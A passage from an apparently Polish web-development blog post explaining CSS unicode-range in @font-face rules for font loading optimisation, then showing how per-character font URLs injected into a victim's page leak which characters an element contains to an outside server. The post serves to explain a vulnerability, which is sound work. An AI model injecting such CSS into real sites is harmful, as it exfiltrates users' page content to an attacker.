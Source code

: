 Ale czy wiesz do czego służy ostatnia właściwość <code>unicode-range</code>? Pozwala ona na zadeklarowanie <strong>jakie znaki znajdują się w konkretnym pliku z fontem</strong>. I tak, przykładowo, wyobraź sobie, że <code>roboto.woff2</code> zawiera alfabet łaciński, a <code>roboto-ext.woff2</code> zawiera literki z „ogonkami” typu ą ę ć ź itd. W takiej sytuacji tworzymy dwie definicje <code>font-face</code> z różnymi <code>unicode-range</code>:
<pre class="&quot;language-css"><code>/* latin */
@font-face {
  …
  src: url(roboto.woff2) format('woff2');
  unicode-range: U+0000-00FF, U+0131, U+0152-0153, U+02C6, U+02DA, U+02DC, U+2000-206F, U+2074, U+20AC, U+2212, U+2215;
}

/* latin-ext */
@font-face {
  …
  src: url(roboto2.woff2) format('woff2');
  unicode-range: U+0100-024F, U+1E00-1EFF, U+20A0-20AB, U+20AD-20CF, U+2C60-2C7F, U+A720-A7FF;
}</code></pre>
Jeśli kiedykolwiek używałaś/eś Google Fonts to (prawdopodobnie nawet o tym nie wiedząc) używałaś/eś <code>unicode-range</code>. Google dodaje to domyślnie do swoich fontów :)
<h3>Po co mi <code>unicode-range</code>?</h3>
Otóż w rezultacie przeglądarka rozpocznie pobieranie drugiego pliku (z „ogonkami”) tylko jeśli na stronie rzeczywiście zostały te ogonki użyte. Po co? Dla <strong>poprawy wydajności</strong>, zmniejszenia transferu i liczby zapytań. Ogólnie: Optymalizacja.

Realny przykład: Mamy stronę korporacji, która ma podstrony po arabsku, angielsku i polsku. Na podstronie arabskiej pobierze się tylko plik z arabskimi znaczkami, na angielskiej tylko łacińskie znaki, a na polskiej pobiorą się łacińskie oraz „ogonki”. Brzmi dobrze, prawda?
<h3>Podatność</h3>
A co się stanie jeśli zdefiniujemy po jednym <code>font-face</code> z osobnym URL fonta dla każdego znaku w alfabecie? Będzie to wyglądało jakoś tak:
<pre class="language-css"><code>@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/A);
    unicode-range:U+0041;
}
@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/B);
    unicode-range:U+0042;
}
@font-face{
    font-family: hackerfont;
    src: url(http://typeofweb.com/char/C);
    unicode-range:U+0043;
}
…</code></pre>
I tak dalej, dla każdej litery alfabetu. <strong>Następnie używamy tego fonta do ostylowania jednego konkretnego elementu na stronie ofiary i wstrzykujemy jej ten CSS.</strong> Efekt widoczny na zrzucie ekranu poniżej:
